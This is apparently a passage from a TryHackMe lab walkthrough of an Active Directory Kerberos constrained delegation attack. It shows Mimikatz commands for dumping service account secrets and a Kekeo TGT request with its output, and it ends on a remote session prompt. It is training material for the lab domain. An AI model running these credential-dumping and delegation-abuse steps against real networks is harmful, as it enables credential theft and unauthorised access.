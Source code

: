 Let's run through the two commands:

- token::elevate - To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
- lsadump::secrets - Mimikatz interacts with the registry hive to pull the clear text credentials.

Now that we have access to the password associated with the svcIIS account, we can perform a Kerberos delegation attack. We will use a combination  of [Kekeo](https://github.com/gentilkiwi/kekeo) and [Mimikatz](https://github.com/gentilkiwi/mimikatz/security). You can use another window for Mimikatz, but make sure to exit out of Mimikatz after the `token::elevate` command, otherwise the tickets will be loaded in the wrong context  later on. We will use Kekeo to generate our tickets and then use  Mimikatz to load those tickets into memory. Let's start by generating  the tickets:

- **Command Prompt**

```powershell
PS C:\> C:\Tools\kekeo\x64\kekeo.exe

  ___ _    kekeo 2.1 (x64) built on Dec 14 2021 11:51:55
 /   ('>-  "A La Vie, A L'Amour"
 | K  |    /* * *
 \____/     Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  L\_       https://blog.gentilkiwi.com/kekeo                (oe.eo)
                                             with 10 modules * * */

kekeo #
```

We first need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services:

- **Kekeo**

```powershell
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted
Realm        : za.tryhackme.loc (za)
User         : svcIIS (svcIIS)
CName        : svcIIS   [KRB_NT_PRINCIPAL (1)]
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)]
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt      ): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

**Parameters explained:**

- user - The user who has the constrained delegation permissions.
- domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
- password - The password associated with the svcIIS account. 

Now that we have the TGT for the account that can perform delegation, we  can forge TGS requests for the account we want to impersonate. We need  to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1:


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami